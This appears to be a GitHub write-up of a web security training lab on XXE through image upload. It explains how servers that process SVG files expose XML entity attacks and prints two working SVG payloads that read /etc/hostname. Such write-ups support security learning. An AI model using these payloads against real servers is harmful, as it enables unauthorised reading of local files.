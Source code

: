 Title: Exploiting XXE via image file upload
Level: Practitioner
Desc:  This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.
To solve the lab, upload an image that displays the contents of the /etc/hostname file after processing. Then use the "Submit solution" button to submit the value of the server hostname. 

Examples of XML-based formats are office document formats like DOCX and image formats like SVG. 

For example, an application might allow users to upload images, and process or validate these on the server after they are uploaded. 
Even if the application expects to receive a format like PNG or JPEG, the image processing library that is being used might support SVG images. 
Since the SVG format uses XML, an attacker can submit a malicious SVG image and so reach hidden attack surface for XXE vulnerabilities.

Minnimalist payload, which worked:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/hostname"> ]>
<svg width="128px" xmlns="http://www.w3.org/2000/svg" height="128px">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

Standard payload, which worked: 
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/hostname"> ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```


After visiting the icon in the comment section: 
![image](https://github.com/user-attachments/assets/97514c1c-9009-48b1-ab8e-ff1019968c92)

![image](https://github.com/user-attachments/assets/46c56bf4-1060-419d-9fe4-149b7e3abac3)

![image](https://github.com/user-attachments/assets/87a7d7e0-78f5-4446-a694-888774cd6217)














